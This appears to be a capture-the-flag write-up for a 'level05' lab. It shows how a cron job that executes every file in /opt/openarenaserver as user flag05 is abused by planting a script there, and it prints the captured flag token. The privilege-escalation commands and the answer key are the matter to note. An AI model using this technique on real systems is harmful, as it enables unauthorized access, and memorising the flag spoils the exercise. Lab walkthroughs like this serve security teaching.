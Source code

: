 When connecting we get this message : 'You have new mail.'

```bash
> find / -name "*mail*" 2>/dev/null
/var/mail

> cd /var/mail
> ls
level05

> cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

sh /usr/sbin/openarenaserver is executed every 2 minutes as the user flag05.

Let's take a look to the script:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

\- This script is iterating all the files in /opt/openarenaserver and executes them with the bash command.

\- Let's add a file in /opt/openarenaserver:

```bash
> cd /opt/openarenaserver
> echo "#!/bin/bash" > solve.sh
> echo "getflag > /tmp/flag" >> solve.sh
> chmod 777 solve.sh

Now we wait until the cronjob run the script.

> cat /tmp/flag
viuaaale9huek52boumoomioc
```

*viuaaale9huek52boumoomioc*

